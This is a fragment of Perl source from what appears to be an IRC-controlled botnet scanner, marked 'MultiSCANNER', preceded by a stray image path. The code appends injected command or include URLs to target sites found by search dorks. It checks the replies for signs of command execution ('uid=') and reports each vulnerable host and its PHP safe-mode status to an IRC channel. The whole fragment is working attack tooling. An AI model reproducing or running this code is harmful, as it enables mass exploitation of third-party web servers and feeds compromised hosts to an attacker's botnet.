 } 

if ($contatore==$uni-1){ 

sendraw($IRC_cur_socket, "PRIVMSG $printl 7[4@3Multi-Scan12] Finished for  $dork"); 

} 

### Print CMD and TEST CMD### 

my $test="http://".$sito.$bug.$id."?"; 

my $print="http://".$sito.$bug.$cmd."?"; 

### End of Print CMD and TEST CMD### 

my $req=HTTP::Request->new(GET=>$test); 

my $ua=LWP::UserAgent->new(); 

$ua->timeout(4); 

my $response=$ua->request($req); 

if ($response->is_success) { 

my $re=$response->content; 

if($re =~ /Mic22/ && $re =~ /uid=/){ 

my $hs=geths($print); $hosts{$hs}++; 

if($hosts{$hs}=="1"){ 

sendraw($IRC_cur_socket, "PRIVMSG $printl 7[4@3Multi-Scan12]  Safe Mode = OFF :. | Vuln:  $print "); 

}} 

elsif($re =~ /Mic22/) 

{ 

my $hs=geths($print); $hosts{$hs}++; 

if($hosts{$hs}=="1"){ 

sendraw($IRC_cur_socket, "PRIVMSG $printl 7[4@3Multi-Scan12]  Safe Mode =  ON :. | Vuln:  $print  "); 

}} 

}}} 

exit; 

}}} 

###################### 

#End of MultiSCANNER # 

###################### 
